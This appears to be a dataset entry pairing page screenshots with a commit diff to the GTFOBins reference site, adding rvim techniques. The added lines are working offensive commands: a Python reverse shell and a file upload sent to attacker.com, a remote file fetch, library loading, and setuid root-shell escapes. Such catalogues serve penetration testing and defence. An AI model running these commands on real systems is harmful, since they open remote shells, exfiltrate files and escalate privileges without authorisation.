

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/rvim.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Add reverse-shell, file-upload, file-download, library-load, and capabilities to rvim

```diff
--- a/_gtfobins/rvim.md
+++ b/_gtfobins/rvim.md
@@ -3,6 +3,44 @@ functions:
   shell:
     - description: This requires that `rvim` is compiled with Python support. Prepend `:py3` for Python 3.
       code: rvim -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
+  reverse-shell:
+    - description: This requires that `rvim` is compiled with Python support. Prepend `:py3` for Python 3. Run ``socat file:`tty`,raw,echo=0 tcp-listen:12345`` on the attacker box to receive the shell.
+      code: |
+        export RHOST=attacker.com
+        export RPORT=12345
+        rvim -c ':py import vim,sys,socket,os,pty;s=socket.socket()
+        s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))))
+        [os.dup2(s.fileno(),fd) for fd in (0,1,2)]
+        pty.spawn("/bin/sh")
+        vim.command(":q!")'
+  file-upload:
+    - description: This requires that `rvim` is compiled with Python support. Prepend `:py3` for Python 3. Send local file via "d" parameter of a HTTP POST request. Run an HTTP service on the attacker box to collect the file.
+      code: |
+        export URL=http://attacker.com/
+        export LFILE=file_to_send
+        rvim -c ':py import vim,sys; from os import environ as e
+        if sys.version_info.major == 3: import urllib.request as r, urllib.parse as u
+        else: import urllib as u, urllib2 as r
+        r.urlopen(e["URL"], bytes(u.urlencode({"d":open(e["LFILE"]).read()}).encode()))
+        vim.command(":q!")'
+    - description: This requires that `rvim` is compiled with Python support. Prepend `:py3` for Python 3. Serve files in the local folder running an HTTP server.
+      code: |
+        export LPORT=8888
+        rvim -c ':py import vim,sys; from os import environ as e
+        if sys.version_info.major == 3: import http.server as s, socketserver as ss
+        else: import SimpleHTTPServer as s, SocketServer as ss
+        ss.TCPServer(("", int(e["LPORT"])), s.SimpleHTTPRequestHandler).serve_forever()
+        vim.command(":q!")'
+  file-download:
+    - description: This requires that `rvim` is compiled with Python support. Prepend `:py3` for Python 3. Fetch a remote file via HTTP GET request.
+      code: |
+        export URL=http://attacker.com/file_to_get
+        export LFILE=file_to_save
+        rvim -c ':py import vim,sys; from os import environ as e
+        if sys.version_info.major == 3: import urllib.request as r
+        else: import urllib as r
+        r.urlretrieve(e["URL"], e["LFILE"])
+        vim.command(":q!")'
   file-write:
     - description: This requires that rvim is compiled with Python support. Prepend `:py3` for Python 3.
       code: |
@@ -12,10 +50,16 @@ functions:
         w
   file-read:
     - code: rvim file_to_read
+  library-load:
+    - description: This requires that `rvim` is compiled with Python support. Prepend `:py3` for Python 3.
+      code: rvim -c ':py import vim; from ctypes import cdll; cdll.LoadLibrary("lib.so"); vim.command(":q!")'
   suid:
     - description: This requires that `rvim` is compiled with Python support. Prepend `:py3` for Python 3.
       code: ./rvim -c ':py import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
   sudo:
     - description: This requires that `rvim` is compiled with Python support. Prepend `:py3` for Python 3.
       code: sudo rvim -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
+  capabilities:
+    - description: This requires that `rvim` is compiled with Python support. Prepend `:py3` for Python 3.
+      code: ./rvim -c ':py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
 ---
```
